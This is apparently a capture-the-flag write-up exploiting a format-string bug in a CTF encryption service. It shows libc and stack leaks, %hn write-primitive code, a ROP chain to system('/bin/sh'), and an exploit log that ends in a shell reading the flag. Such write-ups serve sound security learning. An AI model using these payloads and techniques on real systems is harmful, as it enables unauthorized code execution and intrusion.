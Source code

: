 # Encryption and decryption service writeup

I don't really do pwn, but organazers dropped 2 android (YUCK), 1 python pickle( EW) and simple rust rev, so there was nothing to do.
It seems that the intended solution used gets() to overflow the buffer, but I solved without it


## Reversing the logic

Application generates a random master key (16 bytes)

Promts user with scanf(%d\n") for either 1 to encrypt or 2 to decrypt.

Encrypt:
 - Generates 16 random bytes for IV
 - fgets 16 chars at max from user
 - trunkates the last 15th and 16th if they are present
 - checks if input is A to Z (high letters only)
 - XORS with IV
 - encrypts with AES CBC
 - prints out iv and result in hex

Decrypt:
 - gets user string, the intended format for it is iv + result
 - checks if the string is 0x40 hex suitable chars
 - Decrypts with AES CBC
 - XORS with IV
 - print via printf(output)

## Attack vectors

Immidiatly I noticied gets, overflowed the buffer and gracefully smashed the stack and segfaulted.

Upon closer inspection I decided to check what is on the stack and to noone's surprise there is a stack canary right after the 
```
mov     rax, fs:28h
```

So i abandoned the idea with gets :-)


Gazing into the scanf("%d\n") in hopes of divine intervention it came to me that the output from decrypt is actually user controlled.

We can encrypt an arbitrary string - ABCDABCDABCDAB, get its iv and result and since the IV is xored with the decrypted result at the end, We xor the IV with the string we want and get printf with controlled format.

This allows us an arbitrary read from the stack past the rsp with %offset$p and arbitrary write with %n shenanigans. I am now realising that this was propbably enought to leak the canary from the stack and use gets as a normal person, but I missed that somehow.

## Analysing what is available to grab from the stack

Looking at the stack and the registers right before the call:
```
RSI 000000000000000F - len of the string
RDX C55E5390500695CB - leak of the last 8 bytes of the last round key
RCX 00007FFFFFFFD5F0 - Juicy stack pointer -> rsp + 0xd0 and 0x88 away from the ret addr
R8  00007FFFF7FA8C88 - libc.so.6:main_arena+8 (IDA annotation, havent looked into it)
R9  0000000000000000

and then the stack
```
Doing printf("%3$p") leaks stack pointer with known offset

looking closer at the stack we see that printf("%49$p") leaks the ret addr to libc.

so theoretically we are set, apart from we cannot write to the stack, %n to the rescue!

## Convoluted write primitives

we find that at %54$p (this is 54th argument to printf) is a pointer to the stack (to the %83$p),  this sounds like a write primitive canditate

so to actually write 2 bytes where we want to we first write the 2 bytes where we want to write (83rd argument), reading that addr from 54th argument
```
dest_short = dest_short & 0xFFFF
s1 = b'%.'
s2 = str(dest_short).encode("ascii")
s3 = b'd%54$hn'
padlen = max(0, 16 - (len(s1) + len(s2) + len(s3)))
```

and then we read from the 83rd argument and write to now destination address the bytes we actually want with
```
d1 = b'%.'
d2 = str(bts_short).encode("ascii")
d3 = b'd%83$hn'
padlen = max(0, 16 - (len(d1) + len(d2) + len(d3)))
```

2 bytes offset is ok, since those arguments are close to each other (the 54th and 83rd).

So from that we can actually make an 8 byte write primitive
just repeating that 4 times and adjusting the values a bit:

```
def write8prim(bts_LONGLONG, dest_short):
    b1 = bts_LONGLONG & 0xFFFF
    b2 = (bts_LONGLONG >> 16) & 0xFFFF
    b3 = (bts_LONGLONG >> 32) & 0xFFFF
    b4 = (bts_LONGLONG >> 48) & 0xFFFF
    write2primEpilog(b1, dest_short)
    write2primEpilog(b2, dest_short + 2)
    write2primEpilog(b3, dest_short + 4)
    if (b4 == 0):
        return
    write2primEpilog(b4, dest_short + 6)
```


## Exploitation
We leaked the pointers, we have an arbitrary write primitive, we are set?

The stack we wanted to have at the end:

```
retaddr - 0x10 | CANARY         |  we just dont touch that
retaddr - 0x8  | 1              | idk what that is
retaddr        | pop rdi;  ret  |  Gadget
retaddr + 0x8  | ptr to /bin/sh | string from libc
retaddr + 0x10 | ret gadget     | (needed for stack alignment)
retaddr + 0x18 | system()       | funciton from libc
```

After quickly getting the shell on my machine I moved on to the server and realised they had a different libc version...

Using the libc_return_to_main_start_call_verylongname offset I narrowed it down to 10 libc versions, which I had to download one by one and find the offset for a pop rdi; ret gadget.

And finally it we got the output:

```
[+] Opening connection to encrypt-and-decrypt.challs.csc.tf on port 1337: Done
exploit str = b'%49$p-----------' === 16
exploit str = b'%3$p------------' === 16
libc: 7d7c2d607d90  base: 7ffec8697080
ReT ADDR =  0x7ffec8697108
[+] RDI
exploit str = b'%.28936d%53$hn--' === 16
exploit str = b'%.33765d%83$hn--' === 16
exploit str = b'%.28938d%53$hn--' === 16
exploit str = b'%.11616d%83$hn--' === 16
exploit str = b'%.28940d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
[+] binsh
exploit str = b'%.28944d%53$hn--' === 16
exploit str = b'%.26232d%83$hn--' === 16
exploit str = b'%.28946d%53$hn--' === 16
exploit str = b'%.11643d%83$hn--' === 16
exploit str = b'%.28948d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
[+] stack align
exploit str = b'%.28952d%53$hn--' === 16
exploit str = b'%.33766d%83$hn--' === 16
exploit str = b'%.28954d%53$hn--' === 16
exploit str = b'%.11616d%83$hn--' === 16
exploit str = b'%.28956d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
[+] system()
exploit str = b'%.28960d%53$hn--' === 16
exploit str = b'%.60784d%83$hn--' === 16
exploit str = b'%.28962d%53$hn--' === 16
exploit str = b'%.11618d%83$hn--' === 16
exploit str = b'%.28964d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
Ez
[*] Switching to interactive mode
$ 3
$ 3
$ ls
encrypt-and-decrypt
flag.txt
$ cat flag.txt
CSCTF{EncryP7_y0UR_p4Yl0ad}
$
```

You can notice that here the 53rd arg is used and not 54th, this is once again due to libc version difference

